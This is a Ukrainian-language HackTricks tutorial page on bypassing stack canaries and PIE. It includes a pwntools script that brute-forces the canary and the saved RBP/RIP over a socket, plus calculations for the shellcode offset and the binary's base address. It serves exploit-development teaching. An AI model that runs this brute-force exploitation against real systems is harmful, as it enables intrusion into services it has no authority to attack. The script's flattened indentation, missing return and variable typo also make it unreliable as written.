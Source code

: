 # BF Addresses in the Stack

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Якщо ви стикаєтеся з бінарним файлом, захищеним канаркою та PIE (незалежний від позиції виконуваний файл), вам, ймовірно, потрібно знайти спосіб їх обійти.**

![](<../../../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
Зверніть увагу, що **`checksec`** може не виявити, що бінарний файл захищений канаркою, якщо він був статично скомпільований і не здатний ідентифікувати функцію.\
Однак ви можете помітити це вручну, якщо виявите, що значення зберігається в стеку на початку виклику функції, і це значення перевіряється перед виходом.
{% endhint %}

## Brute-Force Addresses

Щоб обійти PIE, вам потрібно **витягнути деяку адресу**. І якщо бінарний файл не витікає жодних адрес, найкраще зробити це — **виконати брутфорс RBP та RIP, збережені в стеку** у вразливій функції.\
Наприклад, якщо бінарний файл захищений як **канаркою**, так і **PIE**, ви можете почати брутфорсити канарку, потім **наступні** 8 байтів (x64) будуть збереженим **RBP**, а **наступні** 8 байтів будуть збереженим **RIP.**

{% hint style="success" %}
Припускається, що адреса повернення всередині стеку належить основному бінарному коду, що, якщо вразливість розташована в бінарному коді, зазвичай буде так.
{% endhint %}

Щоб брутфорсити RBP та RIP з бінарного файлу, ви можете зрозуміти, що вірно вгадане байт є правильним, якщо програма виводить щось або просто не зривається. **Та ж функція**, що надається для брутфорсингу канарки, може бути використана для брутфорсингу RBP та RIP:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
Останнє, що вам потрібно, щоб подолати PIE, - це обчислити **корисні адреси з витоків** адрес: **RBP** та **RIP**.

З **RBP** ви можете обчислити **де ви записуєте свій shell у стек**. Це може бути дуже корисно, щоб знати, куди ви збираєтеся записати рядок _"/bin/sh\x00"_ всередині стека. Щоб обчислити відстань між витоковим RBP і вашим shellcode, ви можете просто поставити **переривання після витоку RBP** і перевірити, **де знаходиться ваш shellcode**, потім ви можете обчислити відстань між shellcode і RBP:
```python
INI_SHELLCODE = RBP - 1152
```
З **RIP** ви можете обчислити **базову адресу PIE бінарного файлу**, яка вам знадобиться для створення **дійсного ROP ланцюга**.\
Щоб обчислити базову адресу, просто виконайте `objdump -d vunbinary` і перевірте останні адреси дизасемблювання:

![](<../../../../.gitbook/assets/image (145).png>)

У цьому прикладі ви можете побачити, що потрібно лише **1 байт і півтора** для локалізації всього коду, тоді базова адреса в цій ситуації буде **витік RIP, але закінчуючи на "000"**. Наприклад, якщо ви витекли `0x562002970ecf`, базова адреса буде `0x562002970000`
```python
elf.address = RIP - (RIP & 0xfff)
```
{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
